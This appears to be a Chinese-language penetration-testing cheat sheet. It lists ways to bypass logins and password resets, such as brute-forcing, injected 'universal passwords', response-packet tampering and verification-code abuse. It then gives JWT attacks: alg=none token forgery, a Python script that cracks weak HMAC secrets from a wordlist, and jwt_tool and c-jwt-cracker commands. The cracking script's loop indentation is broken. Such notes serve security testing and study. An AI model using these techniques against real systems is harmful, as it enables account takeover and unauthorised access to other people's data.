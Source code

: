 ### 一些存在问题的逻辑
	部分来自：https://mp.weixin.qq.com/s/_0aQYV_4Tz9knQgzs7WSvw
	任意用户注册
	可爆破用户名
	爆破用户名，密码
	用户名注入
	万能密码
	用户名Xss
	修改返回包信息，登入他人账户
	修改cookie中的参数，如user,adminid等
	HTML源码、JS等查看信息搜集一章
	后台登录参数修改为注册参数/reg、/register、/sign等
	登录失败返回包修改，例如“false”改为“true”，响应数值“0”改为“1”，登录后台。如果存在这些情况，一般前端Js、Html也可以直接找到后端对应的各类未授权访问接口
	Js、Html存在用户名密码注释信息
	根据系统查找系统对应的默认账号密码登录
	有些系统的密码为空，密码不填或者抓包后置空发送
	存在信息泄露手机号、邮箱、人名等可以到社工库查找对应的密码
	社工字典密码生成https://github.com/zgjx6/SocialEngineeringDictionaryGenerator
	页面无注册功能，通过Js或Html找到隐藏注册接口注册登录
	注册时验证码没有做好绑定，删除验证码参数，或者验证码参数为空可以注册
	验证码没有做好绑定，发送了验证码但是后端接收到任意验证码都可以注册、爆破、重置密码等

	密码重置
    	1．重置一个账户，不发送验证码，设置验证码为空发送请求。
    	2．发送验证码，查看相应包
	3．验证码生存期的爆破
    	4．修改相应包为成功的相应包
    	5．手工直接跳转到校验成功的界面
    	6．两个账户，重置别人密码时，替换验证码为自己正确的验证码
    	7．重置别人密码时，替换为自己的手机号
    	8．重置自己的成功时，同意浏览器重置别人的，不发验证码
    	9．替换用户名，ID，cookie，token参数等验证身份的参数
    	10．通过越权修改他人的找回信息如手机/邮箱来重置 
### JWT攻击手法
  	https://jwt.io/#debugger-io
	http://jsonwebtoken.io
	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkFtYXppbmcgSGF4eDByIiwiZXhwIjoiMTQ2NjI3MDcyMiIsImFkbWluIjp0cnVlfQ.UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY
	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9        # header
	eyJzdWIiOiIxMjM0[...]kbWluIjp0cnVlfQ        # payload
	UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY # signature
  #### 未校验签名
  	将原JWT串解码后修改用户名等身份认证的地方，生成新token发送请求
  #### 禁用哈希
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/1.png)<br>

	Alg代表加密方式，修改用户名等身份认证的地方，把HS256设置为none生成token发送请求，使用python的pyjwt模块
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/2.png)<br>

jwt.encode({'user':'admin','arg1':'value1','arg2':'value2'},algorithm='none',key='')
  #### 爆破弱密钥
    >pip3 install pyjwt
    >python3 crack.py
```python
import jwt
import termcolor

jwt_str = R'token'
with open('/root/password.txt') as f:
  for line in f:
  key_ = line.strip()
  try:
    jwt.decode(jwt_str,verify=True,key=key_)
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
    break
  except(jwt.exceptions.ExpiredSignatureError,jwt.exceptions.InvalidAudienceError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.ImmatureSignatureError):
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
  except jwt.exceptions.InvalidSignatureError:
    print('\r',' ' * 64, '\r\btry',key_,end='',flush=True)
    continue
else:
  print('\r','\bnot found.')
```
```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```  
  #### jwt_tool
	git clone https://github.com/ticarpi/jwt_tool
	python3 -m pip install termcolor cprint pycryptodomex requests
	python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
  #### c-jwt-cracker
	git clone https://github.com/brendan-rius/c-jwt-cracker
	./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
